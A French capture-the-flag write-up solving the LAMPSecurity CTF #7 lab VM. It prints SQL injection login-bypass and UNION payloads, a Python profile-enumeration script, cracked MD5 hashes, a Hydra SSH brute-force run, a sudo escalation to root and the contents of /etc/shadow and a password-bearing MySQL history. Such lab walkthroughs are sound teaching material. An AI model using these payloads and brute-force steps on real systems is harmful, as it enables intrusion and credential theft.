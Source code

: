 # Solution du LAMPSecurity CTF #7

Introduction
------------

Voici la solution [du CTF LAMPSecurity numéro 7](http://vulnhub.com/entry/lampsecurity-ctf7,86/). La VM est une image d'un système *CentOS* 6.3.  

Frankie Goes to Pwnywood
------------------------

```plain
Starting Nmap 6.46 ( http://nmap.org ) at 2014-07-16 08:25 CEST
Nmap scan report for 192.168.1.60
Host is up (0.00018s latency).
Not shown: 65526 filtered ports
PORT      STATE  SERVICE     VERSION
22/tcp    open   ssh         OpenSSH 5.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 41:8a:0d:5d:59:60:45:c4:c4:15:f3:8a:8d:c0:99:19 (DSA)
|_  2048 66:fb:a3:b4:74:72:66:f4:92:73:8f:bf:61:ec:8b:35 (RSA)
80/tcp    open   http        Apache httpd 2.2.15 ((CentOS))
|_http-methods: No Allow or Public header in OPTIONS response (status code 200)
|_http-title: Mad Irish Hacking Academy
137/tcp   closed netbios-ns
138/tcp   closed netbios-dgm
139/tcp   open   netbios-ssn Samba smbd 3.X (workgroup: MYGROUP)
901/tcp   open   http        Samba SWAT administration server
| http-auth: 
| HTTP/1.0 401 Authorization Required
|_  Basic realm=SWAT
|_http-title: 401 Authorization Required
5900/tcp  closed vnc
8080/tcp  open   http        Apache httpd 2.2.15 ((CentOS))
|_http-methods: No Allow or Public header in OPTIONS response (status code 302)
|_http-open-proxy: Proxy might be redirecting requests
| http-title: Admin :: Mad Irish Hacking Academy
|_Requested resource was /login.php
10000/tcp open   http        MiniServ 1.610 (Webmin httpd)
|_http-methods: No Allow or Public header in OPTIONS response (status code 200)
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Login to Webmin
| ndmp-version: 
|_  ERROR: Failed to get host information from server
MAC Address: 00:0C:29:9D:12:A9 (VMware)
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3
OS details: Linux 3.0 - 3.9
Network Distance: 1 hop

Host script results:
| smb-os-discovery: 
|   OS: Unix (Samba 3.5.10-125.el6)
|   Computer name: localhost
|   NetBIOS computer name: 
|   Domain name: 
|   FQDN: localhost
|_  System time: 2014-07-01T09:08:59-04:00
| smb-security-mode: 
|   Account that was used for smb scripts: <blank>
|   User-level authentication
|   SMB Security: Challenge/response passwords supported
|_  Message signing disabled (dangerous, but default)
|_smbv2-enabled: Server doesn't support SMBv2 protocol
```

Sur le port 80 se trouve un site fait avec *Bootstrap*... ce qui fait que l'on a l'impression de connaître le site avant même de l'avoir visité :p  

En haut de la page il y a un formulaire *"Sign in"* avec les champs username et password.  

La page retourne une erreur sql bavarde si on rentre **"'** comme nom d'utilisateur :  

```plain
Invalid query: You have an error in your SQL syntax;
check the manual that corresponds to your MySQL server version for the right syntax to use near ''" and password = md5("")' at line 1
Whole query: select username, user_id from users where username = ""'" and password = md5("")
```

Il semble qu'il soit alors possible de bypasser l'authentification en modifiant la requête SQL.  

Ainsi avec le nom d'utilisateur **" or 1;#** on se retrouve connecté en tant que *test@nowhere.com*.  

Il est alors possible d'accéder à des profils utilisateurs via des urls de la forme */profile&id=113*.  

Un petit script Python suffit à extraire les utilisateurs existants en cherchant les IDs entre 0 et 500.  

```python
#!/usr/bin/python
import requests

sess = requests.session()

for i in range(0, 500):
    url = "http://192.168.1.60/profile&id=" + str(i)
    r = sess.get(url)
    if 'mailto:"' not in r.content:
        print "id =", i, r.content.split("mailto:")[1].split('"')[0]
```

Le résultat obtenu est le suivant :  

```plain
id = 3 brian@localhost.localdomain
id = 4 john@localhost.localdomain
id = 5 alice@localhost.localdomain
id = 6 ruby@localhost.localdomain
id = 7 leon@localhost.localdomain
id = 8 julia@localhost.localdomain
id = 9 michael@localhost.localdomain
id = 10 bruce@localhost.localdomain                                                                                                                                                                            
id = 11 neil@localhost.localdomain                                                                                                                                                                             
id = 12 charles@localhost.localdomain                                                                                                                                                                          
id = 36 foo@bar.com                                                                                                                                                                                            
id = 113 test@nowhere.com
```

Vu que l'email utilisateur s'affiche dans la page une fois connecté, il doit être aussi possible d'utiliser une UNION pour faire afficher les passwords de l'utilisateur.  

Et... oui ! si on rentre **" union select password, 0 from users where user\_id=3;#** on obtient le hash du mot de passe de *Brian*.  

Comme il y a peu d'utilisateurs on peut se permettre de faire une énumération manuelle. Après quelques temps on a les hashs suivants :  

```plain
brian:e22f07b17f98e0d9d364584ced0e3c18
john:0d9ff2a4396d6939f80ffe09b1280ee1
alice:2146bf95e8929874fc63d54f50f1d2e3
ruby:9f80ec37f8313728ef3e2f218c79aa23
leon:5d93ceb70e2bf5daa84ec3d0cd2c731a
julia:ed2539fe892d2c52c42a440354e8e3d5
michael:9c42a1346e333a770904b2a2b37fa7d3
bruce:3a24d81c2b9d0d9aaf2f10c6c9757d4e
neil:4773408d5358875b3764db552a29ca61
charles:b2a97bcecbd9336b98d59d9324dae5cf
foo:4cb9c8a8048fd02294477fcb1a41191a
test:098f6bcd4621d373cade4e832627b4f6
```

Ça ne fait pas long feu avec une bonne wordlist :  

```plain
$ /opt/jtr/john --wordlist=mega_dict.txt --format=raw-md5 hash.txt 
Loaded 12 password hashes with no different salts (Raw MD5 [128/128 AVX intrinsics 12x])
changeme         (foo)
chuck33          (charles)
madrid           (julia)
my2cents         (brian)
qwer1234         (leon)
somepassword     (michael)
test             (test)
turtles77        (alice)
guesses: 8  time: 0:00:00:02 DONE (Wed Jul 16 13:28:15 2014)
```

Testons ces identifiants sur le serveur SSH. Ici pas question de les faire à la mano.  

```plain
$ ./hydra -L users.txt -P passwords.txt -e nsr ssh://192.168.1.60
Hydra v8.0 (c) 2014 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2014-07-16 13:30:27
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 88 login tries (l:8/p:11), ~0 tries per task
[DATA] attacking service ssh on port 22
[22][ssh] host: 192.168.1.60   login: brian   password: my2cents
[22][ssh] host: 192.168.1.60   login: leon   password: qwer1234
[22][ssh] host: 192.168.1.60   login: julia   password: madrid
[22][ssh] host: 192.168.1.60   login: michael   password: somepassword
[22][ssh] host: 192.168.1.60   login: charles   password: chuck33
[22][ssh] host: 192.168.1.60   login: alice   password: turtles77
[STATUS] attack finished for 192.168.1.60 (waiting for children to finish) ...
1 of 1 target successfully completed, 6 valid passwords found
Hydra (http://www.thc.org/thc-hydra) finished at 2014-07-16 13:30:43
```

La vie de Brian
---------------

*Brian* a tous les droits et on le remercie :  

```plain
[brian@localhost ~]$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for brian: 
Matching Defaults entries for brian on this host:
    requiretty, !visiblepw, always_set_home, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User brian may run the following commands on this host:
    (ALL) ALL
[brian@localhost ~]$ sudo su
[root@localhost brian]# head -1 /etc/shadow
root:$6$C85VH0UQ$ZFydP2qmc0DTBfK5x4UL9658RDdF/cAzRtRFv6SB7ctovLeEPV6BOzimsGtCQOYbQOXbH4Ek2FN4a0Lrsymb/0:15698:0:99999:7:::
```

Au passage on trouve d'autres mots de passe dans le fichier *.mysql\_history* de root :  

```plain
update users set password=md5('my2cents') where user_id = 3;
update users set password=md5('transformersrule') where user_id = 4;
update users set password=md5('turtles77') where user_id = 5;
update users set password=md5('qwer1234') where user_id = 7;
update users set password=md5('madrid') where user_id = 8;
update users set password=md5('somepassword') where user_id = 9;
update users set password=md5('LosAngelesLakers') where user_id = 10;
update users set password=md5('Jets4Ever') where user_id = 11;
update users set password=md5('chuck33') where user_id = 15;
update users set password=md5('chuck33') where user_id = 12;
```

Un goût de trop peu ?

*Published July 21 2014 at 22:09*